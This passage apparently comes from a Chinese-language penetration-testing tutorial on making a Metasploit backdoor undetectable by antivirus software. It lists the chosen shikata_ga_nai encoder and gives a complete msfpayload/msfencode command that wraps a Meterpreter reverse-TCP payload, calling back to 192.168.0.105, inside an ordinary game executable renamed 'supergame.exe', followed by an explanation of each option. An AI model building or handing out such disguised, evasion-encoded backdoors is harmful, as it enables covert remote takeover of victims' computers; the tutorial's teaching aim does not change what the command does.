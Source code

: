 我们的后门很容易被防病毒程序检测到，我们必须让它无法被检测到。让我们开始这个过程。我们将使用`msfencode`和编码器来完成此操作。首先，选择一个好的编码器来编码后门 EXE 文件。输入`show encoders`；这将显示 Metasploit 中可用编码器的列表。

![Creating a fully undetectable backdoor](img/3589_10_11.jpg)

我们现在可以看到编码器列表。我们会选择`x86 shikata_ga_nai`，因为它的排名是**优秀**。

![Creating a fully undetectable backdoor](img/3589_10_12.jpg)

现在键入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 1 -t exe -x/root/Desktop/game.exe -o /root/Desktop/supergame.exe

```

使用的语法如下：

```
PAYLOAD NAME - windows/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 1 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template) - root/Desktop/game.exe o(The output file) - root/Desktop/supergame.exe

```
